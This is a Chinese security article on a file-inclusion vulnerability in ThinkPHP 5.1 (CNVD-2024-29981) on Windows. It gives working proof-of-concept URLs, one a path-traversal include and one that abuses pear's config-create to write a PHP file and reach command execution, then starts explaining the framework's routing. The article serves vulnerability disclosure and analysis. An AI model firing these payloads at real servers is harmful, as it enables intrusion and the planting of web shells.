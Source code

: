 #  Thinkphp5.1.0-Thinkphp5.1. 文件包含漏洞（CNVD-2024-29981）   
 安全工程师实录   2024-11-12 21:02  
  
声明：请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
<table><tbody><tr><td style="word-break: break-all;" width="558" valign="top"><h1 style=""><span style=" color: rgb(255, 76, 65); ; " data-darkreader-inline-color=""><span style="font-family: 宋体;font-variant: normal;text-transform: none;">Thinkphp5.1.0-Thinkphp5.1.*文件包含漏洞 (CNVD-2024-29981)</span>
  </span></h1><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">time 4.24</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">测试版本：thinkphp 5.1.41</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">php: 7.3.4</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">影响范围：thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">漏洞利用poc: index.php?s=..\..\你要包含的路径/index/index</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">pear进行命令执行poc :</span></p><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65); ; " data-darkreader-inline-color="">/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&amp;+config-create+/+1.php</span><span style=" font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;color: rgb(0, 0, 0);font-weight: normal;font-style: normal; ; " data-darkreader-inline-color=""></span></td></tr></tbody></table>#   
  
  
  
  
调用堆栈：  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznZrnoaicQOrrHKatpYjKwbFc4ic6pcNNLB6Dm9vAHdhdF1OScibDX2Kenw/640?wx_fmt=png "")  
  
  
#   
# 一.Thinkphp文件包含:    
  
  
在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如：  
  
  
  
http://127.0.0.1/index.php/index/index/hello  
  